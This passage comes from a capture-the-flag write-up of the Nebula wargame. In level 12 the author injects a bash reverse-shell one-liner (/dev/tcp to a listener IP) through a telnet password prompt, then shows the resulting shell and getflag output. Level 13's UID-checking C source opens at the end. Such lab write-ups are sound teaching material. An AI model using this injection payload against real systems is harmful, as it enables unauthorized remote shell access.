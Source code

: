 ```shell
ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5F3F 6ECC 75A2 4FF9 C358 2913 09FF 5C75 6D50 F5A4
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

We make a telnet request and send our injected command.

```shell
level12@nebula:/home/flag12$ telnet localhost 50001
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: echo asdf; bash -i >& /dev/tcp/192.168.144.1/8000 0>&1; echo asdf
```

We get a reverse shell.

```shell
Ncat: Connection from 192.168.144.191.
Ncat: Connection from 192.168.144.191:40283.
bash: no job control in this shell
flag12@nebula:/$ whoami
whoami
flag12
flag12@nebula:/$ id
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)
flag12@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
```

# level 13

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);

}
```

[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md